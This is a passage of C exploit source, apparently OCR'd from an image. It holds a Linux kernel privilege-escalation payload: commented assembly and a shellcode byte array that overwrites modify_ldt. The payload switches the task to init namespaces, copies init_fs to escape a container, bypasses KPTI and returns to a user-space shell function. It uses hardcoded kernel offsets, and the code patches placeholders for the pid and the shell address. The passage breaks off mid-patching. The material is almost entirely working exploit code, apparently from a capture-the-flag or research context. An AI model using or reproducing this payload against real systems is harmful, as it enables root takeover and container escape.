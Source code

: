 ```c
   *   lea rax, [r15 + 0xea4e0]; // &switch_task_namespaces - kbase == 0xea4e0
   *   call rax; // switch_task_namespaces(task, &init_nsproxy);
   *
   *   // current = find_task_by_vpid(pid);
   *   // current->fs = copy_fs_struct(&init_fs);
   *   lea rdi, [r15 + 0x1589740]; // &init_fs - kbase == 0x1589740
   *   lea rax, [r15 + 0x2e7350]; // &copy_fs_struct - kbase == 0x2e7350
   *   call rax; // copy_fs_struct(&init_fs);
   *   mov rbx, rax; // new_fs
   *   mov rdi, 0x1111111111111111; // pid: will be fiexed
   *   lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
   *   call rax; // current = find_task_by_vpid(pid)
   *   mov [rax + 0x6e0], rbx; // current->fs = new_fs
   *
   *   // bypass kpti
   *   xor rax, rax;
   *   mov [rsp + 0x00], rax;
   *   mov [rsp + 0x08], rax;
   *   mov rax, 0x2222222222222222; // user_ip: will be fixed
   *   mov [rsp + 0x10], rax;
   *   mov rax, 0x3333333333333333; // user_cs: will be fixed
   *   mov [rsp + 0x18], rax;
   *   mov rax, 0x4444444444444444; // user_rflags: will be fixed
   *   mov [rsp + 0x20], rax;
   *   mov rax, 0x5555555555555555; // user_sp: will be fixed
   *   mov [rsp + 0x28], rax;
   *   mov rax, 0x6666666666666666; // user_ss: will be fixed
   *   mov [rsp + 0x30], rax;
   *   lea rax, [r15 + 0xc00f06]; // bypass_kpti - kbase == 0xc00f06
   *   jmp rax; // bypass_kpti
   */
  uint8_t new_modify_ldt_code[] = {
      0xE8, 0x00, 0x00, 0x00, 0x00, 0x41, 0x5F, 0x49, 0x81, 0xEF, 0xF0, 0x52,
      0x02, 0x00, 0x49, 0x83, 0xEF, 0x05, 0x49, 0x8D, 0xBF, 0x60, 0xA9, 0x45,
      0x01, 0x49, 0x8D, 0x87, 0x40, 0xBA, 0x0E, 0x00, 0xFF, 0xD0, 0x48, 0xC7,
      0xC7, 0x01, 0x00, 0x00, 0x00, 0x49, 0x8D, 0x87, 0xC0, 0x4F, 0x0E, 0x00,
      0xFF, 0xD0, 0x48, 0x89, 0xC7, 0x49, 0x8D, 0xB7, 0x20, 0xA7, 0x45, 0x01,
      0x49, 0x8D, 0x87, 0xE0, 0xA4, 0x0E, 0x00, 0xFF, 0xD0, 0x49, 0x8D, 0xBF,
      0x40, 0x97, 0x58, 0x01, 0x49, 0x8D, 0x87, 0x50, 0x73, 0x2E, 0x00, 0xFF,
      0xD0, 0x48, 0x89, 0xC3, 0x48, 0xBF, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11,
      0x11, 0x11, 0x49, 0x8D, 0x87, 0xC0, 0x4F, 0x0E, 0x00, 0xFF, 0xD0, 0x48,
      0x89, 0x98, 0xE0, 0x06, 0x00, 0x00, 0x48, 0x31, 0xC0, 0x48, 0x89, 0x04,
      0x24, 0x48, 0x89, 0x44, 0x24, 0x08, 0x48, 0xB8, 0x22, 0x22, 0x22, 0x22,
      0x22, 0x22, 0x22, 0x22, 0x48, 0x89, 0x44, 0x24, 0x10, 0x48, 0xB8, 0x33,
      0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x48, 0x89, 0x44, 0x24, 0x18,
      0x48, 0xB8, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x48, 0x89,
      0x44, 0x24, 0x20, 0x48, 0xB8, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55,
      0x55, 0x48, 0x89, 0x44, 0x24, 0x28, 0x48, 0xB8, 0x66, 0x66, 0x66, 0x66,
      0x66, 0x66, 0x66, 0x66, 0x48, 0x89, 0x44, 0x24, 0x30, 0x49, 0x8D, 0x87,
      0x06, 0x0F, 0xC0, 0x00, 0xFF, 0xE0};

  uint64_t *ptr;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x11\x11\x11\x11\x11\x11\x11\x11", 8);
  *ptr = getpid();
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x22\x22\x22\x22\x22\x22\x22\x22", 8);
  *ptr = (uint64_t)get_shell;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x33\x33\x33\x33\x33\x33\x33\x33", 8);
  *ptr = user_cs;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x44\x44\x44\x44\x44\x44\x44\x44", 8);
```